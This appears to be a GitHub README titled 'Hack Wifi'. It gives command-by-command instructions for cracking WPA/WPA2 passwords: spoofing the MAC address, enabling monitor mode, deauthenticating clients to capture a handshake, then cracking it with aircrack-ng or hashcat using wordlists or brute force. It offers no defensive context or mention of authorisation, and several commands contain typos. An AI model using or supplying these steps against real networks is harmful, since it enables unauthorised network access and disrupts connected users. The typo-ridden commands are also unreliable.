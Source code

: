 # Hack Wifi
hack wifi (wpa2-wpa) with kali or ubuntu
#### new terminal 1
You can change your mac address(Optional)
```
ifconfig wlan0 down
macchanger -m 00:00:00:00:00 wlan0
ifconfig wlan0 down
```
then You have to switch to monitor mode
```
airmon-ng start wlan0
```
#### new terminal 2
look available Wifis
```
airodump wlan0mon
```
#### new terminal 3
attack to get handshake in terminal 2
```
aireplay-ng -0 <60> -a <BSSID> wlan0mon
```
#### final step
after You get handshake in (2)

you can try to crack password
```
aircrack-ng -w <wordlist> -b <BSSID> <handshake file>
```
##### or
you can crack with GPU . its faster and better with hashcat

first convert handshake file
```
airecrack-ng <INP> -J <OUT> #cap to hcap   
```
then
```
hashcat -m 2500 -u 4096 <.hcap file> <wordlist>
```
hashcat manual
```
-a3 #brute force mode

?l=abc...z
?d=012...9
?u=ABC...Z
?s=!#...{}
?a=?l?u?d?s
```
